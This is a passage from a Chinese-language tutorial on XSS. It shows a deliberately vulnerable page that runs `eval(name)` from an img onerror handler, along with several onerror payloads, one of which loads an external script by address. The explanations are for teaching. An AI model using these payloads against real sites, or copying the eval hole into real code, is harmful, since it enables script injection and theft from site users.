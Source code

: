 存在缺陷的 XSS 页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <img src="s.sx" onerror=eval(name) />
    </body>
</html>

```

其实有很多用法，当然你也可以直接:

```
<img src=x onerror=eval(alert(1)) />

```

![2013082023401581483_jpg.jpg](img/img11_u18_jpg.jpg)

还可以

```
<img src=x onerror=eval(变量) />

```

![2013082023410714365_jpg.jpg](img/img12_u25_jpg.jpg)

还可以通过调用元素属性，或者是程序员自写的 js 代码

![2013082023425551862_jpg.jpg](img/img13_u30_jpg.jpg)

### `<img src=x onerror=with(body)createElement('script').src='[JS 地址]'>`

S1:通过 img 元素的 src 属性出错，执行 onerror 事件.

S2:用 with 定位到 body，通过 DOM 的一个 createElement 方法创建一个 script 元素，并使用 script 的 src 属性指向需要调用的外部 js 文件。从而达到攻击的目的。

S3:这个就不讲解了，都应该能够看懂

## 0x03 实例

* * *

下面引用长谷川的 PPT 的一部分（此 PPT 引用经过作者同意）

![2013082023440538047_jpg.jpg](img/img14_u28_jpg.jpg)

![2013082023443139294_jpg.jpg](img/img15_u23_jpg.jpg)

通过查看源代码：
